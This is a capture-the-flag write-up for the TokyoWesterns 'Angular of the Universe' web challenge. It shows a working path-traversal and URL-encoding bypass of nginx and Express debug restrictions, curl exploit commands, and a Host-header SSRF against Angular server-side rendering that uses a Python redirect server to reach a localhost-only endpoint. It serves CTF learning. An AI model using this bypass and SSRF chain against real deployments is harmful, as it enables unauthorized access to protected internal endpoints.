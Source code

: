 # Angular of the Universe
Category: Web

Flag1: Solves: 39, Score: 139  
Flag2: Solves: 34, Score: 149

> You know, everything has the angular.
A bread, you, me and even the universe.
Do you know the answer?

[http://universe.chal.ctf.westerns.tokyo](http://universe.chal.ctf.westerns.tokyo)


## Solution
For the first flag, we needed to bypass the nginx `location` directive:
```conf
location /debug {
    # IP address restriction.
    # TODO: add allowed IP addresses here
    allow 127.0.0.1;
    deny all;
  }
```
And after that the one in the express-server:
```ts
if (process.env.FLAG && req.path.includes('debug')) {
      return res.status(500).send('debug page is disabled in production env')
    }
```

We bypassed both checks by constructing a url with `//` because these characters seem to stop the route matching mechanism of angular/express and tell nginx that we are not entering `/debug` by traversing back with several `..`. So for now our exploit url is: `http://universe.chal.ctf.westerns.tokyo/debug/answer//../../a`

Luckily, the express request matchers seems to decode url-encoded characters before matching, so we can just substitute `d` with `%64` and bypass the includes.

When executing `curl --path-as-is -s http://universe.chal.ctf.westerns.tokyo/%64ebug/answer//../../a`, the flag can be found between several html-Tags.

For the second of the two flags we need to bypass our request ip, because the express server checks it before sending the flag:
```ts
server.get('/api/true-answer', (req, res) => {
    console.log(req.ips)
    if (req.ip.match(/127\.0\.0\.1/)) {
      res.json(`hello admin, this is true answer: ${process.env.FLAG2}`)
    } else {
      res.status(500).send('Access restricted!')
    }
  });
```

We solved this by changing the Host-Header in our Request, because Angular parses it as the Host for internal fetch Requests:
```
renderOptions.url =
      renderOptions.url || `${req.protocol}://${(req.get('host') || '')}${req.originalUrl}`;
```

With this we can exploit a fetch call on the debug Page:
```
this.service.getAnswer().subscribe((answer: string) => {
      this.answer = answer
    })
```

By excuting curl again pointing the host to our server running a Proxy script, we get the flag: `curl --path-as-is -s http://universe.chal.ctf.westerns.tokyo/%64ebug/answer//../../a -H "Host: example.com"`


## Proxy Server
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(301)
        self.send_header('Location', 'http://127.0.0.1/api/true-answer')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()

def run(server_class=HTTPServer, handler_class=S, port=8080):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

## Flag
`TWCTF{}`